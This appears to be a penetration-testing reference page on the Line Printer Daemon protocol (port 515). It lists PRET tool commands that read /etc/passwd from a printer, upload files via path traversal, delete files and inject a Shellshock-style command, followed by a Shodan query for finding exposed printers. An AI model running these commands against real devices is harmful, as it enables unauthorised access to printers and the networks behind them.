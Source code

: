 





### **Introduction to LPD Protocol**

In the 1980s, the **Line Printer Daemon (LPD) protocol** was developed in Berkeley Unix, which later became formalized through RFC1179. This protocol operates over port 515/tcp, allowing interactions through the `lpr` command. The essence of printing via LPD involves sending a **control file** (to specify job details and user) along with a **data file** (which holds the print information). While the control file allows the selection of **various file formats** for the data file, the handling of these files is determined by the specific LPD implementation. A widely recognized implementation for Unix-like systems is **LPRng**. Notably, the LPD protocol can be exploited to execute **malicious PostScript** or **PJL print jobs**.

### **Tools for Interacting with LPD Printers**

[**PRET**](https://github.com/RUB-NDS/PRET) introduces two essential tools, `lpdprint` and `lpdtest`, offering a straightforward method to interact with LPD-compatible printers. These tools enable a range of actions from printing data to manipulating files on the printer, such as downloading, uploading, or deleting:

```python
# To print a file to an LPD printer
lpdprint.py hostname filename
# To get a file from the printer
lpdtest.py hostname get /etc/passwd
# To upload a file to the printer
lpdtest.py hostname put ../../etc/passwd
# To remove a file from the printer
lpdtest.py hostname rm /some/file/on/printer
# To execute a command injection on the printer
lpdtest.py hostname in '() {:;}; ping -c1 1.2.3.4'
# To send a mail through the printer
lpdtest.py hostname mail lpdtest@mailhost.local
```

For individuals interested in further exploring the realm of **printer hacking**, a comprehensive resource can be found here: [**Hacking Printers**](http://hacking-printers.net/wiki/index.php/Main_Page).

# Shodan

* `port 515`







